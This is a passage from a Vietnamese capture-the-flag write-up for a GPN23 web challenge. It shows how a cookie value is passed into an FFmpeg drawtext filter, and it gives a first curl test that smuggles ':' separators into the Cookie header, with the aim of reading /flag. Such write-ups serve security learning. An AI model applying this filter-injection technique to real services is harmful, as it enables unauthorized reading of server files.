 Nghịch thử trong repeater thì biết được ta bắt buộc phải đưa một chuỗi có dạng ip vào phần cookie nếu không thì server sẽ gọi `https://api.ipify.org` sau đó ghi đè lại giá trị cookie => Tham số đầu phải là 1 chuỗi có dạng ip ở đầu và phần sau là gì cũng được

```
Cookie: 100.2.3.4 hello hi xin chao
```

Vậy mục tiêu bây giờ là làm cách nào đó để đọc file `/flag` 

Tìm trên google cách [add text vào video trong FFmpeg](https://stackoverflow.com/questions/17623676/text-on-video-ffmpeg) và đọc [drawtext filter document của FFmpeg](https://ffmpeg.org/ffmpeg-filters.html#drawtext) 

Một lệnh drawtext mẫu

```
drawtext=fontfile=/path/to/font.ttf:text='Stack Overflow':fontcolor=white:fontsize=24:box=1:boxcolor=black@0.5:boxborderw=5:x=(w-text_w)/2:y=(h-text_h)/2
```

Có thể thấy để tách các lệnh ta sử dụng dấu `:`

### **Test 1**

```
$ curl 'https://elmridge-of-indomitable-stars.gpn23.ctf.kitctf.de/' \
  -H 'Host: elmridge-of-indomitable-stars.gpn23.ctf.kitctf.de' \
  -H 'Cookie: 1.1.1.1 : : hello hi' \
  -H 'Sec-Ch-Ua-Platform: "Windows"' \
  -H 'Accept-Encoding: gzip, deflate, br' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safa
ri/537.36' \
  -H 'Sec-Ch-Ua-Mobile: ?0' \
  -H 'Accept: */*' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: no-cors' \
  -H 'Sec-Fetch-Dest: video' \
  -H 'Referer: https://elmridge-of-indomitable-stars.gpn23.ctf.kitctf.de/' \
  -H 'Range: bytes=0-' \
  -H 'Priority: i' \
  -H 'Connection: keep-alive' \
  --output test1.mp4
```
